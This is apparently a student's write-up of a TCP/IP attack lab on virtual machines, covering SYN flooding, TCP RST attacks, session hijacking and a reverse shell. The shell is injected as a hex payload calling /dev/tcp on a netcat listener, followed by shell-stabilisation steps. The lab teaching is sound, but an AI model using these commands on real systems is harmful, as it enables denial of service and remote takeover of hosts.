




# Lab 4 - TCP/IP Attack

## Task 1: SYN Flooding Attack

In the VM that is about to get attacked, with ip 10.0.2.4:

```console
$ sysctl -q net.ipv4.tcp_max_syn_backlog
net.ipv4.tcp_max_syn_backlog = 128
$ netstat -tna | wc -l
17
$ sudo sysctl -a | grep cookie
net.ipv4.tcp_syncookies = 1
```

Starting the attack from the attacking VM. Targeting the SSH port (22):

```console
$ sudo netwox 76 -i 10.0.2.4 -p 22
```

The attacked VM:

```console
$ netstat -tna | wc -l
143
```

During the attack the attacked machine still accepts incoming SSH connections.

Then turn of SYN cookies on the attacked VM and wait for half-opened connections to close.

```console
$ sudo sysctl -w net.ipv4.tcp_syncookies=0
net.ipv4.tcp_syncookies = 1
$ sudo sysctl -a | grep cookie
net.ipv4.tcp_syncookies = 0
$ netstat -tna | wc -l
17
```

The attack resumes again:

```console
$ sudo netwox 76 -i 10.0.2.15 -p 22
```

In the attacked machine the maximum connections are lower.

```console
$ wc -l netstat_cookie_1.txt
112 netstat_cookie_1.txt
```

When SYN cookies were set to 0, another machine was unable to connect to the attacked machine during the attack.

During this task the connection queue was verified to be reset between each step. The task was also replicated using port 23 (telnet) with the same result.

### Question: Why can the SYN cookie effectively protect the machine against the SYN flooding attack?

SYN cookies is a technical attack mitigation technique whereby the server replies to TCP SYN requests with crafted SYN-ACKs, without inserting a new record to its SYN Queue. Only when the client replies this crafted response a new record is added. This technique is used to protect the servers SYN Queue from filling up under TCP SYN floods.

## Task 2: TCP RST Attacks on telnet and ssh Connections

First a connetion is established:

```console
$ telnet 10.0.2.4
Trying 10.0.2.4...
Connected to 10.0.2.4.
Escape character is '^]'.
Ubuntu 16.04.2 LTS
VM login: seed
Password:
Last login: Thu Sep 30 09:53:10 EDT 2021 from 10.0.2.5 on pts/17
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.8.0-36-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

$
```

Commands can be performed as usual. But as soon as an attacker runs the following command the connection breaks with the message `Connection closed by foreign host`. This allso occurs if you try to reastablish the connection during the attack.

```console
$ sudo netwox 78 -d Eth0
```

Using SSH, if a connection was already established the connection drops on interaction with the message `packet_write_wait: Connection to 10.0.2.4 port 22: Broken pipe`. If a connection is trying to be established the message `Connection reset by 10.0.2.4 port 22` is instead showed.

## Task 3: TCP RST Attacks on Video Streaming Applications

On the attacking VM:

```console
$  sudo netwox 78 -d Eth0
```

Or, to target only one ip address on the network

```console
$ sudo netwox 78 --filter 'dst host 10.0.2.4'
```

The video playback stops on the targeted machine as soon as you reach the end of the current buffer. This also stops pretty much all navigation on the internet, not just the video playback.

## Task 4: TCP Session Hijacking

```console
$ sudo tcpdump -w /tmp/packets -v tcp and src host 10.0.2.4 and dst host 10.0.2.5
tcpdump: listening on enp0s3, link-type EN10MB (Ethernet), capture size 262144 bytes
^C7 packets captured
7 packets received by filter
0 packets dropped by kernel
$ wireshark /tmp/packets
void DBusMenuExporterPrivate::addAction(QAction*, int): Already tracking action "" under id 190
void DBusMenuExporterPrivate::addAction(QAction*, int): Already tracking action "" under id 191
```



```console
$ sudo netwox 40 -l 10.0.2.4 -m 10.0.2.5 -o 39134 -p 23 -q 2167006845 -r 2126840726 -H "0d20746f756368206861636b65640d" -z
IP______________________________________________________________.
|version|  ihl  |      tos      |            totlen             |
|___4___|___5___|____0x00=0_____|___________0x0037=55___________|
|              id               |r|D|M|       offsetfrag        |
|_________0x4A50=19024__________|0|0|0|________0x0000=0_________|
|      ttl      |   protocol    |           checksum            |
|____0x00=0_____|____0x06=6_____|____________0x5869_____________|
|                            source                             |
|___________________________10.0.2.4____________________________|
|                          destination                          |
|___________________________10.0.2.5____________________________|
TCP_____________________________________________________________.
|          source port          |       destination port        |
|_________0x98DE=39134__________|___________0x0017=23___________|
|                            seqnum                             |
|_____________________0x8129E67D=2167006845_____________________|
|                            acknum                             |
|_____________________0x7EC50396=2126840726_____________________|
| doff  |r|r|r|r|C|E|U|A|P|R|S|F|            window             |
|___5___|0|0|0|0|0|0|0|1|0|0|0|0|___________0x0000=0____________|
|           checksum            |            urgptr             |
|_________0x6588=25992__________|___________0x0000=0____________|
0d 20 74 6f  75 63 68 20  68 61 63 6b  65 64 0d     # . touch hacked.
```

After the successful TCP session hijack the original telnet connection is unresponsive, and we can verify the successful attack by listing the content of the hijacked machine to see the new file `hacked`.

```console
$ ls
10.0.2.5  bin            D0029E   Documents  examples.desktop  hacked         lib    Pictures  source     Videos
android   Customization  Desktop  Downloads  get-pip.py        importantfile  Music  Public    Templates
```

## Task 5: Creating Reverse Shell using TCP Session Hijacking

On the attacking machine, create a hex payload to connect to the machine and start listening for incoming messages using `nc -lv 9090`.

```console
python
Python 2.7.12 (default, Nov 19 2016, 06:48:10)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> "\r /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1\r".encode("hex")
'0d202f62696e2f62617368202d69203e202f6465762f7463702f31302e302e322e31352f3930393020303c263120323e26310d'
>>> exit()
[10/01/21]seed@VM:~$ nc -lv 9090
Listening on [0.0.0.0] (family 0, port 9090)
```

In another terminal, start sniffing for TCP packets (like in task 4) and use Wireshark to analyze them once you find them to create the correct SYN ACK.



```console
$ sudo netwox 40 -l 10.0.2.4 -m 10.0.2.5 -o 39136 -p 23 -q 3380735878 -r 325000290 -H "0d202f62696e2f62617368202d69203e202f6465762f7463702f31302e302e322e31352f3930393020303c263120323e26310d" -z
IP______________________________________________________________.
|version|  ihl  |      tos      |            totlen             |
|___4___|___5___|____0x00=0_____|___________0x005B=91___________|
|              id               |r|D|M|       offsetfrag        |
|_________0xA7A8=42920__________|0|0|0|________0x0000=0_________|
|      ttl      |   protocol    |           checksum            |
|____0x00=0_____|____0x06=6_____|____________0xFAEC_____________|
|                            source                             |
|___________________________10.0.2.4____________________________|
|                          destination                          |
|___________________________10.0.2.5____________________________|
TCP_____________________________________________________________.
|          source port          |       destination port        |
|_________0x98E0=39136__________|___________0x0017=23___________|
|                            seqnum                             |
|_____________________0xC981EF86=3380735878_____________________|
|                            acknum                             |
|_____________________0x135F1C62=325000290______________________|
| doff  |r|r|r|r|C|E|U|A|P|R|S|F|            window             |
|___5___|0|0|0|0|0|0|0|1|0|0|0|0|___________0x0000=0____________|
|           checksum            |            urgptr             |
|_________0xF3B9=62393__________|___________0x0000=0____________|
0d 20 2f 62  69 6e 2f 62  61 73 68 20  2d 69 20 3e  # . /bin/bash -i >
20 2f 64 65  76 2f 74 63  70 2f 31 30  2e 30 2e 32  #  /dev/tcp/10.0.2
2e 31 35 2f  39 30 39 30  20 30 3c 26  31 20 32 3e  # .15/9090 0<&1 2>
26 31 0d                                            # &1.
```

On the attacked machine the commando `$ /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1` is run. The IP address is the IP to the attacking machine where the netcat commando was run to start listening on incoming connections. We can verify the attack worked on that terminal where we can now perform commandos on the attacked machine.



### BONUS

Once the attacking machine gets a connection it instantly opens a shell connection to the attacked machine. However this shell is fragile (closes on CTRL-C, i.e.) so it is recommended to try to achieve a strong shell where auto complete and commandos like CRTL-C works without cancelling the connection. Using for instance:

```console
$ python -c "import pty; pty.spawn('/bin/bash')"      // Runs on victims machine
[CTRL + Z]                                            // Switches over to your machine
$ stty raw -echo                                      // Runs on your machine
$ fg                                                  // Switches back to victim machine
$ export TERM=xtrm                                    // Runs on victim machine
```


